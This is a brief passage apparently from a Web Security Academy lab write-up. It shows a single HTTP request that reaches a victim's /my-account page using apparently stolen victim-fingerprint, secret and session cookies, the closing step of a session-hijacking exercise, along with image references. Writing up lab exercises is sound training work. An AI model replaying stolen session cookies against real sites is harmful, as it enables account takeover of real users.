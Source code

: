 ![img](media/39fb97eb9ed288dcd12f9ef50cd2d236.png)

Finally, access /my-account with those cookies:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /my-account HTTP/2
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Cookie: victim-fingerprint=XchbXstfr9kMYumQzHglvn9Sg1z4pxSs; secret=aM45zL11YFFQCrtomCCbsY5NztXRhRBV; session=KmVDLu3qlwSNTsfOENJ0hm1Gnji4qT88
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/b3daa268ca35fb259189a903b14d1101.png)
